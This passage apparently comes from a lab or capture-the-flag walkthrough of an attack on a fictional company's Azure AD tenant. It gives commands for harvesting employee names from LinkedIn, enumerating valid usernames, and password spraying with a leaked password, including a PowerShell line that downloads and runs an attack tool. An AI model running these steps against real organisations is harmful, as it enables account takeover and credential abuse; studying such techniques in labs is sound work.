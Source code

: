 #### **Command**:

bash

Copy code

`bridgekeeper --linkedin megabigtech`

#### **Explanation**:

This retrieves employee names from LinkedIn, enabling us to generate potential usernames (e.g., `first.last@megabigtech.com`).

---

### **5. Enumerating Valid Usernames**

We automate username validation using **Omnispray**, a modular framework.

#### **Command**:

bash

Copy code

`python3 omnispray.py --type enum -uf users.txt --module o365_enum_office`

#### **Explanation**:

This checks if provided usernames exist by interacting with the Azure AD authentication endpoint. Valid usernames prompt a password entry, whereas invalid ones return an error.

---

### **6. Credential Stuffing**

With a valid username (`yuki.tanaka@megabigtech.com`) and a password leaked from Pastebin (`MegaDev79$`), we attempt to log in using **MSOLSpray**.

#### **Commands**:

powershell

Copy code

`$url = "https://github.com/dafthack/MSOLSpray/archive/master.zip" $output = "C:\Temp\master.zip" (New-Object System.Net.WebClient).DownloadFile($url, $output) Expand-Archive C:\Temp\master.zip -DestinationPath C:\Temp\MSOLSpray cd C:\Temp\MSOLSpray\MSOLSpray-master . .\MSOLSpray.ps1  Invoke-MSOLSpray -UserList user.txt -Password "MegaDev79$" -Verbose`

#### **Explanation**:

MSOLSpray automates password spraying against Azure AD logins. If the credentials are correct, we gain access to the account.

---

### **7. Enumerating Azure AD Tenant**
